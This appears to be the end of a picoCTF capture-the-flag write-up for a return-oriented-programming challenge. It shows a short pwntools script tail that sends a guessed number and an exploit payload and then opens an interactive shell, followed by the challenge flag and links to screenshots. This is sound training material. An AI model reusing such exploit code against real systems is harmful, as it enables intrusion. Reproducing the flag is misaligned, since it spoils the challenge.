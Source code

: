     sh.recvuntil('guess?\n')
    sh.sendline(guess_num)
    sh.recvuntil('\nName? ')
    sh.sendline(payload)
    
    sh.interactive()


![flag.png][16]

So the flag is `picoCTF{p0p_r0p_4nd_dr0p_1t_3c29990aa7386650}`

  [1]: https://frc6.com/usr/uploads/2020/10/2971545081.zip
  [2]: https://frc6.com/usr/uploads/2020/10/4108005776.png
  [3]: https://frc6.com/usr/uploads/2020/10/3723486194.png
  [4]: https://frc6.com/usr/uploads/2020/10/2670320421.png
  [5]: https://frc6.com/usr/uploads/2020/10/2349705066.png
  [6]: https://frc6.com/usr/uploads/2020/10/2446962559.png
  [7]: https://frc6.com/usr/uploads/2020/10/652770218.png
  [8]: https://frc6.com/usr/uploads/2020/10/1411080372.png
  [9]: https://frc6.com/usr/uploads/2020/10/3912975445.png
  [10]: https://frc6.com/usr/uploads/2020/10/1268743115.png
  [11]: https://frc6.com/usr/uploads/2020/10/2294887826.png
  [12]: https://frc6.com/usr/uploads/2020/10/2816564190.png
  [13]: https://frc6.com/usr/uploads/2020/10/532307689.png
  [14]: https://frc6.com/usr/uploads/2020/10/215960980.png
  [15]: https://frc6.com/usr/uploads/2020/10/666389066.png
  [16]: https://frc6.com/usr/uploads/2020/10/1084771796.png
